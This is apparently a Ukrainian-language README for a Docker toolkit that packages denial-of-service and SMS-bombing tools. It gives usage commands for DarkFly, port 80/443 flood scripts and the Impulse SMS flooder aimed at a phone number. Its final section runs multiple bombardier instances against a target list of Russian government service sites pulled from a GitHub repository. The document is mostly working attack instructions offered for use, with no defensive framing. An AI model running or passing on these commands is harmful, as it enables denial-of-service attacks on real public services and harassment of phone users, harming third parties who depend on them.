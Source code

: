 # Вступ

`toolbox` включає:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git
* [та інші засоби](containers/README.md)

# Користування

[детальний опис](containers/README.md)

(Не обов'язково) будуємо контейнер:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Заходимо до контейнера:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

тепер використовуємо:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

консоль DarkFly:

```shell
DarkFly
```

слідуємо `1` потім `16` встановлюємо `hammer` в `/root/hammer.py` далі по вказівках 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

декілька `bombardier` за раз:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```
